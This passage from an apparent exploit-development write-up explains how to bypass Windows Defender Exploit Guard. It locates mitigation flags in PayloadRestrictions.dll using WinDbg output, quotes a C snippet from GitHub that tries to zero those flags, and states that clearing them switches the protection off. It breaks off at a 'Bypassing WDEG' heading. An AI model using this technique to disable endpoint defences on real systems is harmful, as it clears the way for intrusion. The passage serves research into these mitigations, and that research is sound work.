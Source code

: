 ```
.mrdata section started  {0xe4000-0xe57ec}
000e4000  char g_MitLibState = 0x0
000e4001  char data_e4001 = 0x0
000e4002  char data_e4002 = 0x0
000e4003  char data_e4003 = 0x0
000e4004  char data_e4004 = 0x0
000e4005  char data_e4005 = 0x0
...
```

Setting a breakpoint just before the UaF is triggered we can examine this memory location in WinDbg:

```
db PayloadRestrictions+0xe4000 L6
00007ffb`e7984000  01 00 01 00 01 00
```

This appears to be some sort of global flag(s) that switches on mitigations for WDEG in the `PayloadRestrictions` module, similar to the EMET implementation.

It is difficult to confirm this from open sources, however there is a code snippet on GitHub by [spiralBLOCK](https://github.com/SpiralBL0CK/Bypass-PayloadRestrictions.dll-wdeg-rop-mitigation-/blob/main/main.c) that seems to attempt null out this memory location (although it looks like incomplete/erroneous code):

```c
HMODULE payload = GetModuleHandleA("Payloadrestrictions.dll");
// ...
UINT_PTR adr = (UINT_PTR)payload+0xe4004;
// ...
image = VirtualAlloc(NULL, 0x10, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(image, "\x00\x00\x00\x00\x00\x00\x00\x00\x00", 8);
// ...
```

Long story, short... It turns out that if we overwrite these flags to `0x00` we can switch off WDEG. There is a problem, as expected the protect level on this memory location is `PAGE_READONLY` so we can't simply overwrite the values using a write primitive:

```
!vprot PayloadRestrictions+0xe4000
BaseAddress:       00007ffbe7984000
AllocationBase:    00007ffbe78a0000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        0000000000002000
State:             00001000  MEM_COMMIT
Protect:           00000002  PAGE_READONLY
Type:              01000000  MEM_IMAGE
```

We need a way to change the memory protections on the memory and zero out the flag(s).

## Bypassing WDEG
